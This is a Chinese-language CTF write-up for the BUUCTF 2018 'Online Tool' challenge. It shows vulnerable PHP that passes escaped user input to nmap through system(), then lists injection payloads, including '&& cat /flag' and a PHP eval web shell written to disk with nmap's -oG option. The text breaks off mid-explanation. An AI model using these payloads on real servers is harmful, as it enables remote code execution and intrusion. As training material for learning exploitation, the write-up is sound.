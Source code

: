 



<br>

***

<br>

# [BUUCTF 2018]Online Tool

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
} //传XFF字段

if(!isset($_GET['host'])) { //GET传参数host
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host); //对host字符串进行转码转义
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
    // -sT，在目标主机的日志上记录大批连接请求和错误的信息
    // -Pn，扫描之前不需要用ping命令，有些防火墙禁止使用ping命令
    // -T5，时间优化参数，-T0~5，-T0扫描端口的周期大约为5分钟，-T5大约为5秒钟
    // --host-time限制扫描时间
    // -F，快速扫描
```

这里命令的本意是让用户输入一个`IP`或者网址, 然后后台使用`nmap`对其进行扫描

因为`$host`最终会被拼接到`system`函数中,所以这里我们可以通过能够控制的`$host`变量来执行命令. 一般的思路是命令后注入的形式,例如`host`的值可以为:

```
127.0.0.1&& cat /flag
```

但是这里由于`escapeshellarg`和`escapeshellcmd`的存在, 上面这样的命令会被引号括起来,同时`&`这样的特殊符号也会在前面被加上`\`而转义(由具有逻辑意义的符号变为纯文本字符)

所以需要从其他角度来考虑如何执行命令,这里`Nmap`的 `-oG` 功能可以把执行结果输出到文件中, 那么这里就可以在`host`参数中写入一句话木马, 并通过`Namp`的输出功能将含有一句话木马代码的执行结果输出到文件中

输出文件的路径代码里也给出来了, 目录名也就是`sandbox`这个变量的值

那么不考虑`escapeshellarg`和`escapeshellcmd`的话,payload可以为:

```
?host=<?php eval($_POST[a])?> -oG a.php
这样最终执行的命令就是:
system("nmap -T5 -sT -Pn --host-timeout 2 -F <?php eval($_POST[a])?> -oG a.php");
```

但是`escapeshellarg`和`escapeshellcmd`会对传入字符串中的特殊字符进行转义,以保证传入`shell`的参数字符串是安全的

其中`escapeshellarg`会在未配对的单引号前面加上`\`,然后再在转义后的`\'`两段再加上一对单引号,最后再在整个字符串的两端加上一对单引号

`escapeshellcmd`会在下列特殊字符(包括`/`)以及不成对的单引号前面加上`\`

```
：`&#;`|*?~<>^()[]{}$\`、`\x0A` 和 `\xFF`。
```

